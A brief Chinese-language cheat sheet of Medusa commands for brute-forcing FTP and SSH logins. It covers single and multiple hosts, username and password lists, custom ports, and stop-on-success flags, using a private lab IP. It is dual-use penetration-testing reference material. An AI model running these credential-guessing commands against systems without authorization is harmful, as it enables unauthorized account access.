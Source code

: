 	猜测指定用户名的密码
	> medusa -h 192.168.1.141 -u username -P pass.txt -M ftp
	猜测指定密码的用户名
	> medusa -h 192.168.1.141 -U users.txt -p 123 -M ftp
	爆破用户名和密码
	> medusa -h 192.168.1.141 -U users.txt -P pass.txt -M ftp
	针对多台机器
	> medusa -H hosts.txt -U user.txt -P pass.txt -M ftp
	针对特定端口
	> medusa -h 192.168.1.141 -U users.txt -P pass.txt -M ssh
	> medusa -h 192.168.1.141 -U users.txt -P pass.txt -M ssh -n 2222
	-e ns参数
	n代表null ,s代表same相同
	-O result.txt 代表保存结果到文件
	-f代表找到每台机器的一个正确密码停止，-F代表找到任意机器正确密码就停止
	> medusa -H hosts.txt -U users.txt -P pass.txt -M ftp -f
	> medusa -H hosts.txt -U users.txt -P pass.txt -M ftp -F
